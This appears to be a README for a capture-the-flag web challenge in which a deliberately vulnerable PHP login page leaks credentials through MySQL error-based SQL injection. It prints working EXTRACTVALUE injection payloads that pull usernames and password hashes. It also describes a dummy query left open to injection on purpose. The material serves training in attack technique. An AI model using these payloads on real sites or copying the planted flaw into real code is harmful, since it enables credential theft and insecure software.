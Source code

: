 ```
--> Challenge 1 : Simple Login Page having MYSQL Error Based SQL Injection, Candidate will have to create a query using EXTRACTVALUE Function to extract the credentials of the User from the database and crack the MD5 hash. After Login the candidate will get the first flag on the Dashboard page.

					Example Query :

					abcd' AND EXTRACTVALUE(RAND(),CONCAT(0x3a,(SELECT CONCAT(0x3a,usr_username) FROM information_schema.TABLES WHERE TABLE_NAME="tbl_users" LIMIT 0,1)))); #

This would extract the first entry of the column username in the table tbl_users.

```

Need to setup a MySQL server then put credentials in `config.php`

Don't use root login on production, as someone might try to DROP TABLE

Using database `ctfdb` (arbitrarily)

```sql
CREATE TABLE tbl_users (
	username VARCHAR (255), 
	firstname VARCHAR (63), 
	lastname VARCHAR(63), 
	password CHAR(32)
);
```

```sql
INSERT INTO tbl_users VALUES (
	"as1605", 
	"Aditya", 
	"Singh", 
	"2e22b054625135f6ff62fb22b6dd9525"
);
```
Here the password is MD5 hash in hex. We need to decide the password.

Currently the hack is 

`' AND EXTRACTVALUE(0, CONCAT(':',(SELECT username from tbl_users LIMIT 0,1))); -- `

`' AND EXTRACTVALUE(0, CONCAT(':',(SELECT password from tbl_users LIMIT 0,1))); -- `


`login.php` has a weird double query system, first one is a dummy query which can have SQL Error Based Injection. Second one has cleaned input so the hackers don't outsmart us by any chance

